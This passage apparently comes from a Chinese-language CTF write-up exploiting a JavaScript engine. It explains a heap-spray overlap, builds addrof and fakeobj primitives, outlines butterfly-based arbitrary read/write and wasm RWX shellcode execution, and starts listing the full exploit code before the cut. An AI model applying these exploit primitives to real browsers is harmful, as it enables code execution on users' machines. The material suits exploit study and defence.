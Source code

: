     0x7ff0002880a8: 0x00007fffae25d3c0      0x00007fffae25d400
    0x7ff0002880b8: 0x00007fffae25d440      0x00007fffae25d480

到了这里, `spray[i][14] == spray[i+1][0]`, 往`spray[i][14]` 写一个
地址， 然后从`spray[i+1]` 取出来就会认为他是一个object,
同样可以用`spray[i][14]` 读 object 的地址， fakeobj 和 addrof
的构造就十分直接啦

    unboxed = spray[fake_index];   
    boxed = spray[fake_index+1];   
    print(describe(unboxed))       
    print(describe(boxed))         

    function addrof(obj){                 
        boxed[0] = obj;                   
        return f2i(unboxed[14]);          

    }                                     

    function fakeobj(addr){               
        unboxed[14] = i2f(addr);          
        return boxed[0];                  
    }

#### 任意地址读写 & 写 wasm getshell

接下来的利用基本上就都是通用套路了，改 `ArrayWithDouble` 的 butterfly
任意地址读写，然后找 wasm 的`rwx` 段写shellcode, 执行shellcode 完事。

### exp

完整exp 如下

    var conversion_buffer = new ArrayBuffer(8)
    var f64 = new Float64Array(conversion_buffer)
    var i32 = new Uint32Array(conversion_buffer)

    var BASE32 = 0x100000000
    function f2i(f) {
        f64[0] = f
        return i32[0] + BASE32 * i32[1]
    }

    function i2f(i) {
        i32[0] = i % BASE32
        i32[1] = i / BASE32
        return f64[0]
    }

    function user_gc() {
        for (let i = 0; i < 10; i++) {
            let ab = new ArrayBuffer(1024 * 1024 * 10);
        }
    }

    let arr = [1];
